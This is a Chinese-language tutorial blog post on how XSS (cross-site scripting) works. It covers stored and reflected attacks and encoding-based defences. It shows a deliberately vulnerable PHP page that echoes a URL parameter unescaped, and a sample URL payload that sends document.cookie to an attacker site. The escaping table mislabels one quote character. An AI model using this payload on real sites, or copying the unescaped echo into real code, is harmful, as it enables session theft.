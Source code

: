 ```yaml
---
title: XSS 攻击原理
date: 2017-04-05 14:12:50
tags: problem
---
```


XSS ：跨站脚本攻击（Cross Site Scripting）。为了区别于层叠样式表（Cascading Style Sheet）的缩写 CSS，一般将其缩写为 XSS。XSS 针对一种 web 安全漏洞，该漏洞允许攻击者将恶意脚本注入到用户接收到的网页中，以完成某种不利于用户的操作。

<!-- more -->

简单地说，攻击者可以利用 XSS 漏洞向用户发送攻击脚本，因为用户的浏览器并不知道这段脚本是恶意的，所以依然会执行它。这段恶意脚本可以像正常脚本一样访问 cookie、读取保存在浏览器里的敏感信息，甚至还可以改写页面，进行钓鱼攻击。

下面两个例子，会让我们对 XSS 有个直观的认识。

**场景一：**

攻击者在某网站评论页面，提交了一段可执行的 JavaScript 脚本（这里假设为“恶意脚本”），若服务器端接收到这段脚本后，没有进行过滤或者转义这段脚本，而是将其作为普通的内容发布到了用户评论区，那么，后续用户访问到这个页面后，就会执行这段注入的“恶意脚本”。

**场景二：**

网站 www.a.com 会根据 url 后参数 content 来呈现不同的内容，我们假设页面 index.php 代码如下：

```
<!DOCTYPE html>
<html>
<body>
<h1>接收的内容：</h1>

<?php
    echo $_GET['content'];
?>

</body>
</html>
```

当我们访问地址 http://www.a.com/index.php?content=test 时，页面输出内容就是 test。这样好像并没有什么问题，但是，如果攻击者将访问地址修改为 http://www.a.com/index.php?content=&lt;script&gt;window.open("www.b.com?param="+document.cookie)&lt;/script&gt;， 问题就来了。当某人打开这个地址后，除了打开 www.a.com ,还会弹出一个新的窗口 www.b.com（攻击者的站点），并且带上他保存在本地的 cookie，这些 cookie 很可能包含了他的用户名、密码等私密信息，而这些信息都会被攻击者获取。

（当然了，安装上面步骤操作一遍，我们不一定能看到上面所说的现象，那是因为有些浏览器会自带一些保护性措施来防止这种 XSS 攻击）

XSS 攻击大体分为以上两类：

**① 存储式攻击**
主要出现在让用户输入数据，然后存入数据库的场景，比如留言、评论、博客日志和各类表单等。攻击者在这类页面输入恶意脚本后，若未经过滤直接入库，应用程序从数据库中读取这些“恶意脚本数据”，并在页面中发布出来，后续用户浏览此页面时就可能受到攻击。

**② 反射型攻击**
攻击者将恶意脚本代码加入 url 地址的请求参数里，应用程序接收到请求参数后，将参数直接输入，就可能引入可执行的代码块。用户点击类似的恶意链接就可能执行此代码块，受到攻击。

**归根结底，以上两类情况都是没有对用户提交的数据（参数）做过滤检查。所以，开发者应该有一个共识：永远不要相信用户的输入！对用户的输入进行过滤和审核是一个必要的环节！**

依据以上分析，我们知道：**预防 XSS 攻击的核心就是在输出不可信数据的时候进行编码，过滤特殊字符。**

```
<     ->  &lt;    
>     ->  &gt;
&     ->  &amp;
"     ->  &quot; 
"     ->  &#x27;
空格  ->  &nbsp;  
/     ->  &#x2f;  
```

以上编码转换能够防御一部分 XSS 攻击。实际生产过程中，具体问题还是应该具体分析。



参考：
[1] https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md
[2] http://blog.csdn.net/ghsau/article/details/17027893
[3] http://www.freebuf.com/articles/web/9977.html